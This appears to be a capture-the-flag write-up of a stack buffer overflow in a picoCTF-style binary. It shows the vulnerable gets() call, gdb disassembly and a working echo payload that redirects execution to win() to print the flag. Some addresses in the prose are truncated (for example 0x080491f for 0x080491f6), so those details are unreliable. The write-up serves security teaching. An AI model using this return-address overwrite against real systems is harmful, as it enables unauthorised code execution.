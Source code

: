 If we run the vulnerable program using `./vuln`, and pass `ABC` as input, we get the following output:

```
Please enter your string:
ABC
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
```



Now, let's observe the contents of `vuln.c`. Specifically, let's look at the `vuln()` function:

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```



As you can see, the string `Jumping to 0x804932f` comes from this function, with `get_return_address()` returning the address the function should return to. In most cases, this will take our program to line `40` in `main()`. Overwriting this return address will be our attack target!



As you can see above, `vuln()` contains the `gets()` function. If we observe the documentation for `gets()` using `man gets`, we can see the following in the manual:

```
Never use gets().  Because it is impossible to tell without knowing the data in advance  how  many  characters
gets()  will  read, and because gets() will continue to store characters past the end of the buffer, it is ex‐
tremely dangerous to use.  It has been used to break computer security.  Use fgets() instead.
```



So, our `vuln()` function contains an insecure C function that allows us to perform a buffer overflow right before our function returns. How convenient!



We can probe at this by simply passing in repeating letters from the alphabet, as seen below:

```
> ./vuln

Please enter your string:
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
Okay, time to return... Fingers Crossed... Jumping to 0x4c4c4c4c
Segmentation fault
```



As you can see, our input was long enough to completely overwrite the return address of `vuln()`. In this example, the overwritten address became `0x4c4c4c4c`. If we convert this to ASCII, we can see this is equal to `LLLL`. So, if we shorten our input and replace `LLLL` with `ABCD`, we get the following:

```
Please enter your string:
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKABCD
Okay, time to return... Fingers Crossed... Jumping to 0x44434241
Segmentation fault
```



Our new return address has become `0x44434241`, which is the hexadecimal equivalent of `ABCD`. So, we can replace `ABCD` with any value we want and specify what area of memory we want our program to continue execution in. In our case, we need to obtain the flag which is displayed in the `win()` function. So, if we specify the location of `win()`, we should be golden! 



But, how do we get the location of `win()`? This is where `gdb` comes into play!



If we run the following:

```bash
gdb vuln
disassemble main
```

We see the following:

```
Dump of assembler code for function main:
   0x080492c4 <+0>:     endbr32
   0x080492c8 <+4>:     lea    0x4(%esp),%ecx
   0x080492cc <+8>:     and    $0xfffffff0,%esp
   0x080492cf <+11>:    pushl  -0x4(%ecx)
   0x080492d2 <+14>:    push   %ebp
   0x080492d3 <+15>:    mov    %esp,%ebp
   0x080492d5 <+17>:    push   %ebx
   0x080492d6 <+18>:    push   %ecx
   0x080492d7 <+19>:    sub    $0x10,%esp
   0x080492da <+22>:    call   0x8049130 <__x86.get_pc_thunk.bx>
   0x080492df <+27>:    add    $0x2d21,%ebx
   0x080492e5 <+33>:    mov    -0x4(%ebx),%eax
   0x080492eb <+39>:    mov    (%eax),%eax
   0x080492ed <+41>:    push   $0x0
   0x080492ef <+43>:    push   $0x2
   0x080492f1 <+45>:    push   $0x0
   0x080492f3 <+47>:    push   %eax
   0x080492f4 <+48>:    call   0x80490b0 <setvbuf@plt>
   0x080492f9 <+53>:    add    $0x10,%esp
   0x080492fc <+56>:    call   0x8049070 <getegid@plt>
   0x08049301 <+61>:    mov    %eax,-0xc(%ebp)
   0x08049304 <+64>:    sub    $0x4,%esp
   0x08049307 <+67>:    pushl  -0xc(%ebp)
   0x0804930a <+70>:    pushl  -0xc(%ebp)
   0x0804930d <+73>:    pushl  -0xc(%ebp)
   0x08049310 <+76>:    call   0x80490d0 <setresgid@plt>
   0x08049315 <+81>:    add    $0x10,%esp
   0x08049318 <+84>:    sub    $0xc,%esp
   0x0804931b <+87>:    lea    -0x1f60(%ebx),%eax
   0x08049321 <+93>:    push   %eax
   0x08049322 <+94>:    call   0x8049080 <puts@plt>
   0x08049327 <+99>:    add    $0x10,%esp
   0x0804932a <+102>:   call   0x8049281 <vuln>
   0x0804932f <+107>:   mov    $0x0,%eax
   0x08049334 <+112>:   lea    -0x8(%ebp),%esp
   0x08049337 <+115>:   pop    %ecx
   0x08049338 <+116>:   pop    %ebx
   0x08049339 <+117>:   pop    %ebp
   0x0804933a <+118>:   lea    -0x4(%ecx),%esp
   0x0804933d <+121>:   ret
End of assembler dump.
```



This `gdb` output contains the disassembled machine code of our `main()` function, displaying its contents as assembly with its corresponding location on the left. So, the `main()` function begins at address `0x080492c`.



Well, what about `win()`? In `gdb`, we can simply run `disassemble win`:

```
Dump of assembler code for function win:
   0x080491f6 <+0>:     endbr32
   0x080491fa <+4>:     push   %ebp
   0x080491fb <+5>:     mov    %esp,%ebp
   0x080491fd <+7>:     push   %ebx
   0x080491fe <+8>:     sub    $0x54,%esp
   0x08049201 <+11>:    call   0x8049130 <__x86.get_pc_thunk.bx>
   0x08049206 <+16>:    add    $0x2dfa,%ebx
   0x0804920c <+22>:    sub    $0x8,%esp
   0x0804920f <+25>:    lea    -0x1ff8(%ebx),%eax
   0x08049215 <+31>:    push   %eax
   0x08049216 <+32>:    lea    -0x1ff6(%ebx),%eax
   0x0804921c <+38>:    push   %eax
   0x0804921d <+39>:    call   0x80490c0 <fopen@plt>
   0x08049222 <+44>:    add    $0x10,%esp
   0x08049225 <+47>:    mov    %eax,-0xc(%ebp)
   0x08049228 <+50>:    cmpl   $0x0,-0xc(%ebp)
   0x0804922c <+54>:    jne    0x8049258 <win+98>
   0x0804922e <+56>:    sub    $0x4,%esp
   0x08049231 <+59>:    lea    -0x1fed(%ebx),%eax
   0x08049237 <+65>:    push   %eax
   0x08049238 <+66>:    lea    -0x1fd8(%ebx),%eax
   0x0804923e <+72>:    push   %eax
   0x0804923f <+73>:    lea    -0x1fa3(%ebx),%eax
   0x08049245 <+79>:    push   %eax
   0x08049246 <+80>:    call   0x8049040 <printf@plt>
   0x0804924b <+85>:    add    $0x10,%esp
   0x0804924e <+88>:    sub    $0xc,%esp
   0x08049251 <+91>:    push   $0x0
   0x08049253 <+93>:    call   0x8049090 <exit@plt>
   0x08049258 <+98>:    sub    $0x4,%esp
   0x0804925b <+101>:   pushl  -0xc(%ebp)
   0x0804925e <+104>:   push   $0x40
   0x08049260 <+106>:   lea    -0x4c(%ebp),%eax
   0x08049263 <+109>:   push   %eax
   0x08049264 <+110>:   call   0x8049060 <fgets@plt>
   0x08049269 <+115>:   add    $0x10,%esp
   0x0804926c <+118>:   sub    $0xc,%esp
   0x0804926f <+121>:   lea    -0x4c(%ebp),%eax
   0x08049272 <+124>:   push   %eax
   0x08049273 <+125>:   call   0x8049040 <printf@plt>
   0x08049278 <+130>:   add    $0x10,%esp
   0x0804927b <+133>:   nop
   0x0804927c <+134>:   mov    -0x4(%ebp),%ebx
   0x0804927f <+137>:   leave
   0x08049280 <+138>:   ret
End of assembler dump.
```



So, our `win()` function begins at address `0x080491f`. So, in our input, we need to specify the address `0x080491f` in place of `ABCD`, and our program should begin execution there. But `0x080491f` doesn't contain ASCII characters, so how do we send this binary input to our executable? Thankfully, `echo` has us covered!



You can echo binary data in `echo` using

```bash
echo -e "\xAB\xCD\xEF" 
```



So, our input would be echoed using the following:

```bash
echo -e "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK\xf6\x91\x04\x08"
```



Note that the order of bytes is flipped due to endianness.



We can then pipe our input into our executable as such:

```bash
echo -e "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK\xf6\x91\x04\x08" | ./vuln
```



Which results in the following:

```
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
pico_ctf{YOURFLAG}
Segmentation fault
```



Woohoo! By using a buffer overflow through `gets()`, we have succesfully overwritten the return address of `vuln()` to execute a function of our choice, resulting in the flag being displayed.








































